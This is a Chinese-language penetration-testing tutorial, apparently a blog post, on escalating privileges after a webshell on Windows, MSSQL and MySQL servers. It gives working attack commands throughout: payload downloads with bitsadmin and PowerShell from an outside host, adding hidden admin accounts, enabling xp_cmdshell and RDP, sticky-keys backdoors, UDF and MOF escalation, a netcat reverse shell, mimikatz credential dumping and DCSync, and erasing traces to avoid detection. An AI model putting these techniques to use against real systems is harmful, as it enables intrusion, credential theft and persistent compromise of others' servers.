


我们通过各种漏洞拿到了shell，获取了webshell的权限就可以对网站进行任意修改，但是我们需要获取服务器的管理员权限，也就是系统权限，用户的权限分三种：
- 网络服务用户权限
- webshell（对网站修改）
- 系统权限（管理员权限 Windows_System Linux_root权限）
想要拿到系统权限就需要进行提权
通常脚本所处的权限：
- asp、php 网络服务用户
- aspx 普通用户权限，一般可以调用 cmd
- jsp 管理员权限（管理员运行的容器）
脚本所处的权限取决于运行容器的用户身份，就比如使用 phpstudy 搭建的站点就是 system 权限
假如说现在的网站一共有三个站点，一个是使用 IIS 搭建的 asp 的站点，一个是使用 Tomcat 搭建的 jsp 的站点，还有一个是使用 PHP 搭建的站点。然后我们通过 asp的脚本拿到了 IIS搭建的webshell，同时我们可以在连接之后访问到 Tomcat 的根目录以及 phpstudy 的根目录，同时具有写入权限，那我们就可以尝试将木马写入到这些容器的根目录，借助这种高权限的容器，我们就可以间接性的提权
提权之前的准备
收集信息
然后就是收集信息，假如说我们拿到的网站 shell 是一个外网的网站，那我们就可以将 3389端口开放直接连接，但是如果是一个内网的 ip，那我们就需要使用 MSF 进行端口转发，当然也可以使用 lcx，因为我们可以访问到内网本质上是因为管理员使用了防火墙或者路由器进行了转发，比如我们访问了外网的一个地址（80端口），通过管理员所做的策略，转发到了内网的某一台主机上面，这样我们才可以访问到内网的一台主机上面，假如说这台内网的主机开启了 3389，但是路由器或者防火墙没有做映射的话，我们通过外网的 web 地址是无法访问到的，这个时候就需要使用 MSF 进行端口转发，将这个端口转发到公网的一个 VPS 上面，然后我们直接连接 VPS，就可以连接到内网的这台主机（使用 portfwd）
1 | portfwd add -l 6378 -p 6379 -r 127.0.0.1 # 将靶机上面的6379端口转发到本地的6378端口 |
-
还要看服务器的系统以及版本的位数（X64、X32）
-
还可以查看一下系统的补丁情况，使用命令：
systeminfo，一般情况下 300 个补丁程序就是节点，多了我们就没有必要继续往下看了，我们可以多尝试在补丁上面寻找漏洞，有些补丁如果没有的话，那我们就可以利用相关的漏洞对目标进行攻击，下面这是我自己电脑的补丁，这是系统自己装的所以像公司、企业里面，应该把防火墙都打开，不单单要把外网的防火墙打开，还要把内网的防火墙也打开，因为攻击者的攻击手段不单单只有扫描，还可以通过钓鱼拿到内网的一台主机然后进行内网的横向渗透，所以我们需要在内网把防火墙也打开
-
查看一下服务器的安装软件情况以及防护软件情况
可以查看一下进程：
tasklist，看看进程里面运行着哪些服务软件，也可以看一下默认的安装目录，至于软件防护，也可以直接看看进程，找一下相关的防护软件 -
端口情况
netstat -an直接查看，这个时候就有人问了，为什么不直接在外网进行端口扫描，因为在防火墙打开的情况下，直接进行端口扫描得到的都是防火墙开放的端口，并不是真正的 web 服务器。那假如说我的 web 服务器就是开放到外网上面的，那扫描到的端口和我服务器开放的端口是否是一样的？其实也是不一样的，因为有些端口只是监听在内网上面或者 127.0.0.1 上面使用这条命令还可以看到很多内网链接，这个内网链接也很重要，因为一些大一点的机构网络都是 站库分离 的，很多时候我们拿到了 web 服务器，但是数据库并不在这里，这个时候我们就可以通过
netstat看一下他链接的哪一台服务器，比如说连接的是地址为：192.168.19.123:3306，这说明连接的是内网的一个 mysql 数据库，或者是 1521 oracle数据库，所以这个可以便于我们发现更多的主机假如说我们现在的网段是：192.168.0.100，但是我们使用命令之后看到里面有其他网段的地址，比如说：192.168.1.200，这个属于是1网段的，这些都属于可以通过内网的一些路由器过去的网段，这样就可以找到内网当中的不同的网段
-
支持脚本的情况
假如说我们现在拿到的 webshell 是 asp 站点的，也就是 asp 后缀的，但是有些时候我们想在 asp 里面执行 cmd 没用，上传 cmd 也是无法执行的，这是因为他把相关的组件禁用了，但是这个只针对 asp，这个时候就可以尝试更换脚本，比如说：可以上传aspx 的脚本，因为 aspx 是可以调用系统的 cmd 的，当然也可以尝试上传 php脚本，如果 php的某些函数没有被禁用的话也是可以调用 cmd 的
信息收集常用的命令
- Windows：
ipconfig /all查看当前IPnet user查看当前服务器账号情况netstat -ano查看当前服务器端口开放情况ver查看当前服务器操作系统systeminfo查看当前服务器配置信息（补丁情况）tasklist /svc查看当前服务器进程情况taskkill -PID pid号结束某个 pid 号的进程taskkill /im qq.exe /f结束 qq 进程net user cracer cracer /add添加一个用户名为 cracer 密码为 cracer 的用户net localgroup administrators cracer /add将用户 cracer 添加到管理员组whoami查看当前操作用户（当前权限）
- Linux：
ls -al查看当前目录下的文件和文件夹pwd查看当前操作路径uname -a查看当前服务器内核信息
1 | net user # 查看系统账号 |
假如说我们想要查看这个用户的详细信息，就可以使用命令：net user xxx （xxx 就是账户名称），比如说：
这里就有一个小问题，我们怎么判断我们的用户是不是黑客在我们电脑创建的恶意用户？这个时候就可以使用这条命令，可以查看一下用户创建的时间，因为管理用户是和系统一起创建的，所以时间如果是近期就说明这个用户为恶意用户，当然也可以看一下用户是否被启用，如果有两个管理员账号，但是一个禁用一个启用也是正常的，比如我的就是，Administrator 用户就是禁用的
当我们拿到一个shell之后，一定要执行：whoami，这个命令是用来查看当前用户的身份的，并且在 Windows 以及 Linux 都是可以执行的，以此来判断现在的权限
1 | @echo off # 放在脚本开头，用来关闭命令回显，将结果统一输出 |
1 | @echo off |
然后就是对上述脚本中提取的命令和操作的解释：
- 系统信息收集：
systeminfo：查看系统配置信息。ver：查看操作系统版本。hostname：查看主机名。
- 用户和组信息：
net user：查看用户账户信息。net localgroup：查看本地组信息。net localgroup administrators：查看管理员组成员。net usér guest：查看Guest用户信息（注意拼写错误，应为net user guest）。net user administrator：查看Administrator用户信息。
- 计划任务：
schtask /query：查看计划任务。
- 进程信息：
tasklist /svc：查看当前进程及其服务信息。
- 网络信息：
ipconfig /all：查看详细的网络配置。route print：查看路由表。arp -a：查看ARP表。netstat -an：查看网络连接状态以及开放的端口。ipconfig /displaydns：查看DNS缓存。
- 服务信息：
sc query type= service state= all：查看所有服务状态。
- 文件系统信息：
cd\：切换到根目录。tree -F：以树状结构显示目录内容。
下载文件到服务器
在拿到 shell 之后，可以利用下面这些命令进行自动化文件下载任务，下载一些恶意文件，但是记得做免杀，可以尝试使用 CS的一些脚本或者是 ps1 的脚本
1 | bitsadmin /transfern http://www.cracer.com/shell.exe d:\shell.exe |
bitsadmin是一个 Windows 命令行工具，用于创建、管理和监视下载或上传作业/transfern是创建一个新的下载作业。http://www.cracer.com/shell.exe是要下载的文件 URLd:\shell.exe是文件下载后保存的路径和文件名。
1 | powershell (new-object system.net.webclient).DownloadFile('http://www.cracer.com/x.exe', x.exe') |
powershell是 Windows 的命令行 shell 和脚本语言(new-object system.net.webclient)创建一个新的 WebClient 对象，用于从 Web 服务器下载数据.doanloadfile('http://www.cracer.com/x.exe', x.exe')是调用 WebClient 对象的 DownloadFile 方法，从指定的 URL 下载文件并保存为x.exe
除了上面这种方法，我们还可以使用 nc 来上传文件，如果检测的比较严格的话，我们可以尝试更改文件后缀来进行上传，比如说：我们想要上传一个 cmd.exe，但是很明显，这个大概率会被拦截，这个时候，我们就可以将后缀修改为.jpg、.aaa等等等等，并且我们调用的时候是可以直接调用修改之后的文件的，虽然文件的后缀被修改了，但是 windows 是可以识别文件的 PE 结构的，所以就算后缀名被修改了，我们依旧可以直接调用。
然后就是使用 nc 上传文件的方法：
-
在接收端（服务器）：
启动
nc监听端口并准备接收文件：1
nc -l -p 1234 > received_file
-l：让nc监听指定端口。-p 1234：指定监听的端口号（这里以 1234 为例）。> received_file：将接收到的数据保存到received_file文件中。
-
在发送端（客户端）：
使用
nc发送文件：1
nc <服务器IP> 1234 < file_to_send
<服务器IP>：替换为接收端服务器的 IP 地址。1234：与接收端监听的端口号一致。< file_to_send：指定要发送的文件。
-
示例：
假设服务器 IP 是
192.168.1.100，文件名为example.txt。-
在服务器上：
1
nc -l -p 1234 > example.txt
-
在客户端上：
1
nc 192.168.1.100 1234 < example.txt
-
上马连接执行命令
当我们连接到目标之后，准备调用系统的 cmd 查看一下相关信息的时候，执行命令之后弹出：
这说明我们的 cmd 是无法执行的，那可能的原因是什么？
- 防护软件拦截
- cmd 被降权
- 组件被删除
- 虚拟主机无 cmd 调用
然后就是解决方案：
找可读写目录上传 cmd.exe，将执行的 cmd.exe 路径替换成上传的路径，再次调用执行。
如果实在不行的话，就可以考虑更换脚本 /aspx/php
这个时候我们就可以找一个具有可写权限的目录，然后上传一个cmd.exe文件，然后使用我们新上传的 cmd.exe 文件执行命令
这里我们上传一个大一点的 aspx 的木马，这种一般连上之后的权限都很高，我们上传之后依旧调用系统的 cmd 来执行命令，可以看到命令成功执行，这就说明刚刚是被降权了
查找 3389
- 注册表读取
- 工具扫描
- 命令探针
Windows 提权
利用应用程序提权
常见的服务器程序：
-
FTP软件：
- Server-U
- g6ftp
- FileZilla
-
远程管理软件：
- PCanywhere
- Radmin
- VNC
一般情况下，这种使用第三方软件搭建的 FTP 服务，都有测试账号，并且 账密大概率都是一样的 ，这个时候就可以尝试使用弱口令进行爆破：ftp、test、ceshi，反正是可以找到的都可以试试，同时，这种账号的权限非常大
Server-U 提权
假如我们使用 ftp 连接到了目标，然后就可以执行命令来创建一个用户，并且将其放到管理员组：quote site exec net user a a /add quote site exec net user localgroup administrators a /add
然后我们看一下得到的密码的格式：
1 | cqDEBBBFD7E64EBD64B91728F764499580 # 密码 |
将后面的DEBBBFD7E64EBD64B91728F764499580进行 md5 解密之后得到 test，然后前面的cq就是盐，我们使用这个加密得到结果之后在前面加上解密用的盐，然后盐和密文使用大小写区分开来
然后还有一种提权方法就是使用 Serv-U FTP，我们可以借助他的管理员账密创建一个新的 FTP 账号，并且这个账号是具有 System权限的，至于这里的系统口令，也就是密码，如果没有被修改就可以直接用，但是如果被修改了的话，我们可以找到ServUAdmin.exe文件，然后使用十六进制的工具，比如 010 打开，然后查找账号，后面跟着的就是密码
server-u 提权：
有修改权限：
- 检查是否有可写权限修改server-u默认安装目录下的ServUDaemon.ini
- 增加用户
- 连接
- 执行命令
quote site exec net user cracer cracer.com /add
quote site exec net localgroup administrators cracer /add无修改权限：
暴力破解 md5
溢出提权
G6ftp 提权
-
下载管理配置文件，将 administrator 管理密码破解
-
使用 lcx 端口转发（默认只允许本机连接）
可以看到他只允许在本机的
127.0.0.1上面使用服务端软件登录（08虚拟机 192.168.0.200）lcx.exe -tran 8222 127.0.0.1 8021然后我们在 Windows7（192.168.0.117）上面也下载一个服务端软件，同时新建一个连接，将端口修改为转发后的8222
转发之后我们尝试连接，可以看到已经成功连接了（这一步链接是需要账号以及密码的）
然后我们创建一个新用户，将权限选为 All
然后我们新建一个站点命令，执行一个批处理文件，将下列命令放到批处理文件里面：
net user x 123.com /addnet localgroup administrators x /add保存为x.bat然后我们将这个批处理文件上传上去，然后直接执行刚刚设置的站点命令：
quote site useradd这么一来，这个 x 用户就被加入到管理员组了，提权成功
filezilla 提权
- filezilla 是一款开源的 FTP 服务器和客户端的软件。
- 若安装了服务器端默认只侦听 127.0.0.1 的 14147 端口
- 并且默认安装目录目录下有两个敏感文件 filezillaserver.xml（包含了用户信息）和 filezillaserver interface.xml（包含了管理信息）
- 提权思路：
- 下载这个两个文件，拿到管理密码
- 配置端口转发，登录远程管理 ftpserve，创建 ftp 用户
- 分配权限，设置家目录为C:\
- 使用 cmd.exe 改名为 sethc.exe 替换 c:\windows\system32\sethc.exe 生成 shift 后门
- 连接3389按5次 shift 调出 cmd.exe
依旧是在拿到 shell 之后寻找密码，可以看到这个密码什么都没写，说明就没有密码
密码不需要填写，然后连接到通过端口转发的 14148 端口
然后我们转发端口之后进行连接，可以看到连接成功了
登录进来之后就可以创建一个新的用户，创建完之后添加一个新密码，然后设置共享文件夹，将整个 C 盘设置为共享文件夹，同时将权限全部设置上（服务端）
然后是客户端，我们直接连接登录上去
然后我们将一个cmd.exe 改名为 sethc.exe，然后将原本的这个程序替换，这个程序其实就是粘滞键，然后我们替换之后，就可以通过连续点击 5 次 shift 将终端打开
假如说目标开启了 3389，我们就可以远程连接目标，然后连续点击 5 次 shift，可以看到终端出来了
然后我们执行命令：taskmgr 可以调用任务管理器，explorer.exe 可以直接呼出桌面，都不需要登录了
但是这个只适用于03，切换为08就无法成功了，这个时候就可以使用另外一种方法，我们可以使用 MSF 或者 CS 生成一个 payload，然后将其与 cmd 捆绑替换，这么一来，只要管理员调用 cmd，那么 payload 就会执行，那假如管理员不用 cmd 呢？这个简单，只要是系统加载界面就需要调用 explorer.exe，那我们直接将这个程序和 payload 捆绑就可以
说了这么多，其实只要是系统必须要调用的文件都可以进行捆绑，就比如一些 dll 文件，就可以进行 dll 劫持提权
远程管理软件提权
我们可以在目标上面的 pcAnywhere 管理端新添加一个被控端，然后添加一个新的被控端
在 pcAnywhere 的目录下面找到文件PCA.admin.CIF （中间那个admin是用户名），然后使用这个文件破解账号以及密码
因为 Windows7 安装不了，所以我们就直接自己链接自己吧，主控端添加自己的 IP，然后输入账密就可以连接
radmin 提权
通过端口扫描扫描 4899 端口，上传 radmin.asp 木马读取 radmin 的加密密文，最后使用工具连接（注意将密文转为小写）
vnc 提权
通过读取注册表十进制数，然后转换成十六进制数

破解十六进制数得到密码，vncx4.exe -W 然后输入转换后的十六进制数，就可以得到密码，最后下载一个客户端直接连接 vnc
拥有高权限的 web 容器及中间件：
- winmail server
- phpstudy
- wamp
- upupw
- tomcat
- Strus2
- java反序列漏洞
我们可以尝试劫持这些高权限的容器，然后往容器里面写木马
数据库提权
sqlserver 数据库提权、MySQL 数据库提权，需要具备数据库管理员权限才可执行提权操作
前提条件：
拥有数据库管理员账号密码权限
Windows系统下（没有被降权）
zkeys下面的 mysql 的权限就被降权为服务用户权限，还有就是宝塔，也可能会被降权
Linux 下 mysql 的 root 权限是服务用户权限，很小，不能提权
mssql 提权
sqlserver 的 sa 账号获取方法：
- 爆破
- 查找网站源码数据库链接文件（
web.configconn.asp/aspxconfig.asp/aspxdbconfig.asp/aspx）如果我们拿到的账号为：xycms（不是 sa，但是这不代表不是 sa 权限），如果有注入的话，我们就可以使用 sqlmap执行命令：
sqlmap --is-dba如果是true，说明就是 sa 权限（系统权限），如果没有注入，我们就可以对四大类数据库进行一系列数据库操作，如果可以执行成功就说明是 sa 权限（用户名就是 sa）一般情况下，sa 登录是允许外部地址登录的，但是 mysql 的 root 账号默认是不允许外部地址登录的
mssql 提权方法：安装组件、开启3389、创建用户、提升权限、sa 账号的获取，去查看 config.asp,conn.asp 等文件。
假设我们现在已经获取到了mssql 的账号以及密码，然后在它允许外连的前提下，我们可以尝试使用 sql TOOLS工具进行连接：
可以看到连接成功了，然后我们尝试执行命令，但是可以看到，xp_cmdshell 组件被禁用了，这个时候我们就可以使用 MSSQL查询分析器进行连接尝试，但是这个工具只能在 Windows7 使用
然后我们执行命令，将组件启用
1 | # 安装cmd_shell组件 |
组件开启成功之后我们再次返回去执行系统命令，可以看到命令执行成功，然后我们就可以使用命令创建一个账户，同时加入到管理员组，之后再使用命令给目标开启 3389端口，然后直接使用 mstsc 连接目标
1 | # 开启3389 |
当我们测试完之后，需要将之前开启的组件以及端口全部关闭掉，防止被人发现然后溯源
绕过安全狗提权
1 | # system权限的情况下： |
我们要清楚一点就是，安全狗他不会拦截你创建账号，但是他会拦截你将账号加入到管理员组，所以我们可以尝试加入到其他的组里面，就比如下面的远程桌面组，但是加入这个组之后，我们进行登录还是普通用户，就比如说 C 盘的一些敏感目录我们还是无法进行访问，这个时候我们就需要对文件进行降权：cacls C: /e /t /g everyone:F（ 这个命令的作用是递归地修改C盘根目录及其所有子目录和文件的权限，授予“Everyone”用户组完全控制权限，而不删除现有的权限设置 ）这样就可以访问了
如果说 SqlServer 不允许外连，那我们就可以上传一些大马进行连接，然后执行命令开启组件，开启组件之后就可以尝试执行命令了
1 | # 1433 SQL入侵恢复 xp_cmdshell 方法总结: |
mysql 提权
- UDF 提权
- 启动项提权
- MOF 提权
- 反链端口提权
udf 提权
获取到对方的 mysql 数据库下的 root 账号密码
查看网站源码里面数据库配置文件（inc，conn，config.sql，common，data等）
查看数据库安装路径下的 user.myd（/data/mysql/）下载，本地替换
mysqld --skip-grant-tables跳过验证
mysql.exe -uroot进入MySQL暴力破解 mysql 密码破解 3306 端口入侵
udf 提权原理：通过 root 权限导出 udf.dll 到系统目录下，可以通过 udf.dll 调用执行 cmd
mysql 提权：
root 账号的获取：
可以通过网站源码获取 (
conn.phpconfig.php/dbconfig.phpdb.phpconfig.inc.phpcommon.inc.php)，但是大概率通过这种方法只能获取到一个普通用户的账号
假如说我们获取到的是一个以网站命名的账号：xycms，那么这个时候我们就需要分析网站的属性了：
- 假如说我们拿到的是阿里云的虚拟机，里面有300多个站点，那这里面的数据库账号一般都是普通权限，因为虚拟主机会根据不同的站点创建不同的数据库用户来连接数据库
- 如果站点是企业自己的服务器，站点不多，那么大概率每一个站点连接的数据库都是管理员的（单个服务器单个站点或者一个企业属性的站点群）这种站点一般防护都很一般
我们得到的账号不是 root 并不代表它就不是 root 权限，可以链接查看，如果能对 mysql数据库进行操纵一般就是管理员
爆破（默认不能通过外部地址爆破 root）
只能爆破127 或者 localhost，这个时候就可以考虑去上传一些大马，也可以上传完木马之后，抓包然后爆破密码：
如果我们可以通过 webshell 连接的话，我们可以进入到 mysql 数据库的 user 表中查看管理员用户的账密，那么这个时候问题来了，假如说这些 user 表文件数据显示不完全怎么办？这个时候就可以来到本地的数据库，然后将目标的三个文件下载到本地，并且将本地的数据库中的 user 表文件替换
这个时候我们本地的数据库账号以及密码已经修改为了目标的，那我们应该如何登录呢？可以直接使用命令：
mysqld --skip-grant-tables，这个命令可以让我们直接跳过密码验证，这个时候我们就不需要密码直接回车就可以登录
进入之后直接：
use mysqlselect * from user
UDF 提权，首先，我们可以将脚本上传到目标，然后进行访问，可以看到它先是确定是否存在 plugin 目录，如果不存在的话，我们可以直接点击旁边的 Create PluginDir来创建这个目录
创建成功之后就可以导入udf.dll，这个文件就在我们的脚本里面，然后创建函数，之后我们就可以通过这个创建的函数执行命令了

1 | # udf提权 |
启动项提权
-
查看我们进入数据库中有些什么数据表
show tables;默认的情况下，test 中没有任何表的存在。 -
在 TEST 数据库下创建一个新的表；
1
create table a (cmd text);
好了，我们创建了一个新的表，表名为a，表中只存放一个字段，字段名为 cmd，为 text 文本。
-
在表中插入内容
1
2
3insert into a values ("set wishshell=createobject (""wscript.shell"")");
insert into a values ("a=wshshell.run (""cmd.exe /c net user 1 1 /add"",0)");
insert into a values ("b=wshshell.run (""cmd.exe /c net localgroup Administrators 1 /add"",0)");注意双引号和括号以及后面的“0”一定要输入！我们将用这三条命令来建立一个 VBS 的脚本程序！
-
现在我们来看看表 a 中有些什么
1
select * from a;
我们将会看到表中有三行数据，就是我们刚刚输入的内容，确认你输入的内容无误后，我们来到下一步
-
输出表为一个VBS的脚本文件
1
2# 这一步是将这个脚本文件加入到启动项里面
select * from a into outfile "c://docume~1//administrator//「开始」菜单//程序//启动 //a.vbs;"; -
重启即可！
目标的电脑一旦重启就会创建一个系统管理员的账号，那么问题来了，假如他不重启怎么办呢？这个时候就可以使用MSF上面的ms12-020，可以让目标蓝屏，只要蓝屏他一定会重启
mof 提权
-
第一种方法：
- 上传
mof.php - 输入相关信息，执行命令，提权。
- 上传
-
第二种方法：
-
上传文件
x.mof -
使用 select 命令导出到正确位置
1
select load file('C:/wmpub/nullevt.mof') into dumplile 'c:/windows/system32/wbem/mof/nullevt.mof'
-
允许外部地址使用 root 用户连接的 sql 语句
1
Grant all privileges on *.* to 'root'@'%' identified by 'root' with grant option;
-
反链端口提权
利用 mysql 客户端工具连接 mysql 服务器，然后执行命令：
1 | mysql.exe -h 172.16.10.11 -uroot -p |
本地监听你反弹的端口：nc.exe -vv -l -p 2010 ，成功后你将获得一个 system权限的 cmdshell，其实这个也是利用的UDF提权
HASH获取与破解
需要管理员权限方可执行读取hash操作：gethashes.exe $local
1 | gsecdump |
也可以使用 pwdump7.exe 获取 hash
mimikatz 使用
-
mimikatz 使用时需要高权限，至少是 administrator 权限
-
mimikatz 抓取密码的命令需要 system 权限，可以先进行提权
privilege::debug# 提升权限（从 administrator 提升到 system）
-
抓取 hash
sekurlsa::logonpasswords# 获取当前在线用户的明文密码（需要高权限运行）lsadump::isa /patch# 获取当前此计算机存在过用户的NTLMHASH
-
mimikatz的其他命令
lsadump::sam SYSTEM.hiv# 导出所有用户口令 使用 Value Shadow Copy 获得 SYSTEM、SAM 备份
-
通过内存文件获取口令
sekurlsa::minidump lsass.dmpsekurlsa::logonPasswords full- 拉取 rd.adsecurity.org 域中的 KRBTGT 用户帐户的密码数据
lsadump::dcsync /domain:rd.adsecurity.org /user:krbtgt- 拉取 lab.adsecurity.org 域中 ADSDCO3 域控制器的计算机帐户的密码数据
lsadump::dcsync /domain:lab.adsecurity.org /user:adsdc03$
hash 破解工具
1 | saminside |
漏洞利用与提权
补丁提取
1 | # 利用补丁提取脚本 |
windows-exploit-suggester
用来查看哪些补丁漏洞是可以使用的，使用方法如下：
1 | windows-exploit-suggester.py --update |
将服务器执行 systeminfo > a.txt
1 | windows-exploit-suggester.py --database 2019-01-01-mssb.xls --systeminfo a.txt |
常用的漏洞库网站
1 | https://exploit-db.com |